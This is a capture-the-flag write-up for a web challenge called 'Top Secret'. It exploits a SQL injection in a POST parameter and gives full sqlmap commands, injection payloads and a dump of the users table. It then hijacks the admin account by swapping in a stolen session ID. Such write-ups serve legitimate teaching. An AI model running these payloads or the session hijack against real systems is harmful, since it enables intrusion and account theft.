



Top Secret: Web 400
----------------------


This was a pretty fun Web CTF question. In short summary this question was a SQL Injection exploit that used cookies and post methods. Most people that know how to do basic SQL injections, will only know how to do it from the URL (GET Method). This one used POST. Luckily I knew how to do POST SQLi from my curiosity when I first learned it, and luckily I had pre-installed CO2 Burp extension for a previous competition, which made the SQL injection exploit very simple. 

We given a link http://162.243.171.85/. Upon visting the site we see a simple login.



First thing you do for any Web Application Penetration Test is do Recon and mapping. As such I opened up Burp to record all my page visits, and used the web application normally. I registered for an account and looked at the default web page.



We can clearly see three other pages. Home, Find Friends, and Logout. I tried a few of the pages.

Home

	
Find Friends


The home page involves typing in some secret to store and show it on a table. The Friends page shows other users. Trying to put it together, we need to find some way to get another person's secret using the two pages. In other words, we need to find the the admin's secrets. After figuring this out, I tried to look at the actual requests.

[Friends Request](friend_request.txt)

```
POST http://162.243.171.85/find.php HTTP/1.1
Host: 162.243.171.85
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://162.243.171.85/find.php
Cookie: PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

username=admin
```

[Home Request](home_request.txt)


```
POST http://162.243.171.85/ HTTP/1.1
Host: 162.243.171.85
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://162.243.171.85/
Cookie: PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

secret=apple
```

The only thing we should take note of, is that both of these pages use **POST** methods to retrieve data, where "secret" and "username" are the pieces of data being sent. We can also see there is a PHPSESSID to record the current user. Now let's try some exploitation. First thing I tried was SQL injection. Let's try escaping the SQL query using a ' character.


This proves the Friends page is vulnerable to **SQL injection**. I right clicked the on the request in Burp: Right Click > Send to SQLMapper (a free Burp Extension by the CO2 Suite) and copied the SqlMap command. You will notice a data section for post parameters and a cookie value.


```
sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=982677f8035354b556b6d80b00353187b77a997cd28e49bfda777e5c91f80dafc61114c392a70b95bd4fe12ddb727ab9f9d19032a8a21f393517af1635d24f9d'
```

Now to try the exploit.


As you can see the application is clearly vulnerable and it works with SQLMap. First I tested for database names (--dbs flag). 

[dbs_output.txt](dbs_output.txt)
```
viviturtle@vivi-laptop:~$ sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=982677f8035354b556b6d80b00353187b77a997cd28e49bfda777e5c91f80dafc61114c392a70b95bd4fe12ddb727ab9f9d19032a8a21f393517af1635d24f9d' -p username --dbs
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150919}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:37:55

[18:37:55] [INFO] resuming back-end DBMS 'mysql' 
[18:37:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=test' AND 7074=7074 AND 'UonP'='UonP

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' AND (SELECT 7296 FROM(SELECT COUNT(*),CONCAT(0x71717a6271,(SELECT (ELT(7296=7296,1))),0x7176627071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'DRrf'='DRrf

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: username=test' AND (SELECT * FROM (SELECT(SLEEP(5)))XSaB) AND 'wzNJ'='wzNJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=test' UNION ALL SELECT CONCAT(0x71717a6271,0x4f72664d694671504f4f,0x7176627071),NULL-- 
---
[18:37:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0
[18:37:56] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] TopSecret

[18:37:56] [INFO] fetched data logged to text files under '/home/viviturtle/.sqlmap/output/162.243.171.85'

[*] shutting down at 18:37:56

```

It gave us the default database, information_schema and one other, TopSecret. Using the Top Secret Database, I tried to see what tables were in there.

[table_output.txt](table_output.txt)
```
viviturtle@vivi-laptop:~$ sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=982677f8035354b556b6d80b00353187b77a997cd28e49bfda777e5c91f80dafc61114c392a70b95bd4fe12ddb727ab9f9d19032a8a21f393517af1635d24f9d' -p username -D TopSecret --tables
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150919}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:38:35

[18:38:35] [INFO] resuming back-end DBMS 'mysql' 
[18:38:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=test' AND 7074=7074 AND 'UonP'='UonP

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' AND (SELECT 7296 FROM(SELECT COUNT(*),CONCAT(0x71717a6271,(SELECT (ELT(7296=7296,1))),0x7176627071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'DRrf'='DRrf

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: username=test' AND (SELECT * FROM (SELECT(SLEEP(5)))XSaB) AND 'wzNJ'='wzNJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=test' UNION ALL SELECT CONCAT(0x71717a6271,0x4f72664d694671504f4f,0x7176627071),NULL-- 
---
[18:38:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0
[18:38:35] [INFO] fetching tables for database: 'TopSecret'
Database: TopSecret
[1 table]
+-------+
| users |
+-------+

[18:38:35] [INFO] fetched data logged to text files under '/home/viviturtle/.sqlmap/output/162.243.171.85'

[*] shutting down at 18:38:35

```

It had one table, users. Let's dump this table.

[dump.txt](dump.txt)
```
viviturtle@vivi-laptop:~$ sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=982677f8035354b556b6d80b00353187b77a997cd28e49bfda777e5c91f80dafc61114c392a70b95bd4fe12ddb727ab9f9d19032a8a21f393517af1635d24f9d' -p username -D TopSecret -T users --dump
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150919}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:39:00

[18:39:01] [INFO] resuming back-end DBMS 'mysql' 
[18:39:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=test' AND 7074=7074 AND 'UonP'='UonP

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' AND (SELECT 7296 FROM(SELECT COUNT(*),CONCAT(0x71717a6271,(SELECT (ELT(7296=7296,1))),0x7176627071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'DRrf'='DRrf

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: username=test' AND (SELECT * FROM (SELECT(SLEEP(5)))XSaB) AND 'wzNJ'='wzNJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=test' UNION ALL SELECT CONCAT(0x71717a6271,0x4f72664d694671504f4f,0x7176627071),NULL-- 
---
[18:39:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0
[18:39:01] [INFO] fetching columns for table 'users' in database 'TopSecret'
[18:39:01] [INFO] fetching entries for table 'users' in database 'TopSecret'
[18:39:01] [INFO] analyzing table dump for possible password hashes
Database: TopSecret
Table: users
[32 entries]
+----+-------+--------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
| id | admin | username           | password                                                                                                                         | session                                                                                                                          |
+----+-------+--------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
| 1  | 0     | admin              | 0cc8ad13e3adc57abde1fcb81ae3c9896be04eb27a1411988475cedea5ac6553473de16afaf71c2a546f6bd868b859d6ef1cd065abd6f92e75e22aa4bfecce0a | 3f44e5dedf6b06b5da8c6e5ec7c0f4304f334a2ff2b1da3654942bab969e89765dae32faeabefdc0cf15d506c5146d96289dfa9929af7f60d65055d978e406ec |
| 2  | 0     | dad                | 2d5ca061b638b0d44e337ed5b6ae1eccee72e20794fa98d294b779d65126bd710103a9df137dc4a495fd3059c7ffbc12b7968b49d1a008b9ca860372507a8670 | 3aa746aaed1989910fc64e8bbf6cfa47ca954caa7552b26519fc06c42bf13694e561655ffe2c4b9cee1bddd3771658bd54d7cab82ff807a8619143ae61c562b2 |
| 3  | 0     | asdf               | ce57d8bc990447c7ec35557040756db2a9ff7cdab53911f3c7995bc6bf3572cda8c94fa53789e523a680de9921c067f6717e79426df467185fc7a6dbec4b2d57 | 0a17137c74e6f2ecf86d9920972d10bbc71fde1d99d03864989dcf7406e3f9f7750fb3751d3f497a24fb29ffcda05fba8af48cfd52c1f204f109bc075cb4fe34 |
| 4  | 0     | test               | 560b30a00786abd7c6fb7219dabe7cfc53c9fb952c31719193c16d2d3582164e64b9b11381c49e3cfb6195375f496610dbe09204c2c8bf0486fece673ef24e8d | 
...
+----+-------+--------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+

[18:39:01] [INFO] table 'TopSecret.users' dumped to CSV file '/home/viviturtle/.sqlmap/output/162.243.171.85/dump/TopSecret/users.csv'
[18:39:01] [INFO] fetched data logged to text files under '/home/viviturtle/.sqlmap/output/162.243.171.85'

[*] shutting down at 18:39:01

```
Although it looks bad, (because my terminal isn't big enough), we are given a table with the columns, ID, admin, username, password, and session. The password is hashed somehow, so we can't use that unless we want to bruteforce the hash. The only other option is to use the session ID. As you can see it's stored in the SQL Database. This is bad practice, because session ids should be stored and randomized by the application per login and not stored in a SQL database. Since we have this session id, we can impersonate anyone on the database. Let's impersonate the admin in order to get their secrets.

Let's log back into the web application and check out the home page. We can either change the cookie values in our browser or just do it through Burp. We are going to use the latter. If you recall looking at the request, it contains a PHPSESSID.

```
POST http://162.243.171.85/ HTTP/1.1
Host: 162.243.171.85
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://162.243.171.85/
Cookie: PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

secret=apple
```

Let's change the PHPSESSID to the admin's session ID.

```
POST http://162.243.171.85/ HTTP/1.1
Host: 162.243.171.85
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://162.243.171.85/
Cookie: PHPSESSID=3f44e5dedf6b06b5da8c6e5ec7c0f4304f334a2ff2b1da3654942bab969e89765dae32faeabefdc0cf15d506c5146d96289dfa9929af7f60d65055d978e406ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

secret=test
```

Now if you lookat the web application. It thinks we are the admin.


The flag is **RC3-SECRETSS-6277598130**. Feel free to check out [sqlmap_notes.txt](sqlmap_notes.txt) to see the actual sqlmap requests.